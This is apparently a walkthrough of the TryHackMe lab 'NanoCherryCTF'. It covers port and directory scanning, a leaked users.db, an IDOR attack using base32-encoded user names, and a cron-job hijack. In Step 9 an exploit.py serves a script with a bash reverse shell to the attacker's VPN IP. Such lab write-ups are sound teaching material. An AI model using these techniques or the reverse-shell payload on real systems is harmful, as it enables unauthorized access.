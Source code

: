 # NanoCherryCTF Walkthrough

## Step 1: Update /etc/hosts and Read the Story

-   **Method:** Go to the `/etc/hosts` folder and add `TARGET_IP` next to `cherryontop.thm`.
-   **Answer:** No answer needed.

## Step 2: Port Scanning

-   First, we will perform a port scan to see which ports are open and if we can gather any useful information from them.

`nmap -sV [TARGET_MACHINE_IP] -T5` 

### Scan Results:

`Starting Nmap 7.94SVN (https://nmap.org) at 2024-10-05 14:34 EEST
Nmap scan report for nano.cherryontop.thm (10.10.232.170)
Host is up (0.092s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 12.36 seconds` 

## Step 3: Directory Enumeration

-   Next, we execute a directory enumeration with the following command:

`gobuster dir -u http://10.10.232.170 -w /usr/share/wordlists/dirb/big.txt` 

### Gobuster Scan Results:
============================================================ Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://10.10.232.170 [+] Method: GET [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/dirb/big.txt [+] Negative Status codes: 404 [+] User Agent: gobuster/3.6 [+] Timeout: 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== /.htaccess (Status: 403) [Size: 278] /.htpasswd (Status: 403) [Size: 278] /css (Status: 301) [Size: 312] [--> http://10.10.232.170/css/] /images (Status: 301) [Size: 315] [--> http://10.10.232.170/images/] /jquery (Status: 301) [Size: 315] [--> http://10.10.232.170/jquery/] /js (Status: 301) [Size: 311] [--> http://10.10.232.170/js/] /server-status (Status: 403) [Size: 278] Progress: 20469 / 20470 (100.00%) =============================================================== Finished ===============================================================`

-   We didn't find anything useful here either.

## Step 4: SSH Login

-   Next, using the provided credentials (username and password), we will connect via SSH:

`ssh notsus@10.10.232.170` 

-   **Password:** `dontbeascriptkiddie`

## Step 5: Check Users

-   After logging in and going to the home directory, we can see that there are four users:
`notsus@nanocherryctf:/home$ ls
bob-boba  chad-cherry  molly-milk  sam-sprinkles` 

## Step 6: Find Subdomains

-   Knowing that `cherryontop.thm` runs on Apache (from the port scan), we will execute the following command to find all subdomains:
`grep -iR ServerName /etc/apache2/sites-enabled/` 

### Results:
`notsus@nanocherryctf:/home$ grep -iR ServerName /etc/apache2/sites-enabled/
/etc/apache2/sites-enabled/a.cherryontop.thm.conf:      # The ServerName directive sets the request scheme, hostname and port that
/etc/apache2/sites-enabled/a.cherryontop.thm.conf:      # redirection URLs. In the context of virtual hosts, the ServerName
/etc/apache2/sites-enabled/a.cherryontop.thm.conf:      #ServerName www.example.com
/etc/apache2/sites-enabled/a.cherryontop.thm.conf:      ServerName cherryontop.thm
/etc/apache2/sites-enabled/b.cherryontop.thm.conf:      # The ServerName directive sets the request scheme, hostname and port that
/etc/apache2/sites-enabled/b.cherryontop.thm.conf:      # redirection URLs. In the context of virtual hosts, the ServerName
/etc/apache2/sites-enabled/b.cherryontop.thm.conf:      #ServerName www.example.com
/etc/apache2/sites-enabled/b.cherryontop.thm.conf:      ServerName nano.cherryontop.thm
grep: /etc/apache2/sites-enabled/000-default.conf: No such file or directory` 

-   After finding `nano.cherryontop.thm`, we will add it to the `/etc/hosts` file and then access the page.

## Step 7: Admin Login

-   From the page, we go to the Admin `login.php` page.
-   At this point, the first thought was SQL injections, but the page does not have such a vulnerability.
-   Searching for directories, I found `/users.db`.

### Gobuster Results for `/users.db`:

`=============================================================== Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) [+] Url: http://nano.cherryontop.thm [+] Method: GET [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/customwordlists/top-100-subdomains.txt [+] Negative Status codes: 404 [+] User Agent: gobuster/3.6 [+] Timeout: 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== /users.db (Status: 200) [Size: 12288] /login.php (Status: 200) [Size: 2310] Progress: 2019 / 2020 (99.95%) =============================================================== Finished ===============================================================`

-   Examining this file, we can easily find the login credentials:
-   **Username:** `puppet`
-   **Password:** `master`
-   With these, we can log into the admin portal. From there, we find Molly's flag: **Molly's Flag:** THM{B________1}
-   We also get her password to log in via SSH.

## Step 8: Connect to Chad
-   After logging in via SSH, we find `chads-key1.txt`:

`chads-key1.txt: n________y` 

-   Next, we head to the page `http://cherryontop.thm/content.php`.
-   After testing some facts, we notice that the page is vulnerable to an IDOR attack.
-   After analyzing the URL `/content.php?facts=2&user=I52WK43U`, I observed that the user `I52WK43U` is the word `Guest` encrypted with base32.
-   After encrypting all users with base32 using Burp Suite, I found that for Fact 43 of `sam-sprinkles` (`facts=43&user=ONQW2LLTOBZGS3TLNRSXG===`), it displayed the message: `My secret web hideout in case I forget my ssh credentials again`
-   **sam-sprinkles:** `S____________3`
-   After connecting with the above credentials, we also find `chads-key2.txt`:
`chads-key2.txt: w____3` 

## Step 9: Checking Cron Jobs

-   Checking all the crontabs, we see that `bob-boba` has a cron job running every minute.
-   It looks like `bob-boba` is trying to fetch a script from `cherryontop.tld:8000` and execute it.
-   After adding the `THM_VPN_IP cherryontop.tld` to `/etc/hosts`, we can now host a simple Flask server to serve the `coinflip.sh` script with reverse shell content.
### `exploit.py`:
`from flask import Flask
app = Flask(__name__)

@app.route('/home/bob-boba/coinflip.sh')
def hello_world():
    return """#!/bin/bash
bash -c 'bash -i >& /dev/tcp/THM_VPN_IP/4444 0>&1'
"""
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)` 

-   Meanwhile, we also open a listener.

## Step 10: Gaining Access

-   After getting access to `bob-boba`, we find the last key:

  `chads-key3.txt: 7_______3` 

-   Finally, we can log in via SSH with `chad-cherry` using all keys obtained, and find `chad's flag`:
- 
`THM{I_W_______T}`
